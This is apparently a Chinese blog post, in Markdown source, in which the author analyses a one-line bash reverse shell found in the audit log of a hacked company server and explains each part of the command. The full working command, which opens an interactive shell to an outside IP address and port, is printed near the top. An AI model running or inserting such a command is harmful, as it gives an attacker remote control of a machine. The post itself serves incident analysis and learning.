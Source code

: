 ```yaml
---
layout: post
title: 单行反弹Shell命令的理解
description: "单行反弹Shell命令的理解"
category: Shell
avatarimg:
tags: [Linux, Shell, Security]
duoshuo: true
---
```


公司的一台服务器被黑客入侵了。。。安全没做好！！！
查看bash审计日志，发现黑客执行的相关命令，其中有一条反弹Shell的命令，在被黑的服务器上执行如下：
> bash -i >& /dev/tcp/173.208.201.162/9083 0>&1 &

执行后的效果就是黑客在自己的机器上利用nc等工具监听9083端口，不仅可以发送命令到被黑服务器上，命令的输出也会回显到黑客的机器上，整个表现就是被黑服务器的Shell反弹到黑客机器上了，和SSH远程登录一台服务器执行命令一样。。。

理解上面的单行命令，费了好半天，看来对bash shell的掌握还不够啊。

- 首先， bash -i开启了Shell的交互模式，这样反弹Shell后，黑客可以和它交互；
- 然后是这段： >& /dev/tcp/173.208.201.162/9083，表示bash打开到远程目标IP端口的TCP连接，并将标准出重定向到远程目标IP端口上；
- 再然后是这段：0>&1，表示标准输入（这个标准输入是在远端执行的）也重定向到远程目标IP端口上？（PS: 这里我不是很好理解，如果高手看到请指点一下。）
- 最后的&表示后台运行，这样就相当于常驻后台的后门了。

我不得不感叹，第一个想出这种用法的人真是变态啊，算是奇技淫巧，对bash shell的掌握很深入了。

**Refercences:**   
[交互式shell和非交互式shell](http://blog.csdn.net/trochiluses/article/details/13767669)  
[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)  
[REVERSE SHELL WITH BASH](http://www.gnucitizen.org/blog/reverse-shell-with-bash/)  
[What is the difference between &> and >& in bash?](http://superuser.com/questions/335396/what-is-the-difference-between-and-in-bash)
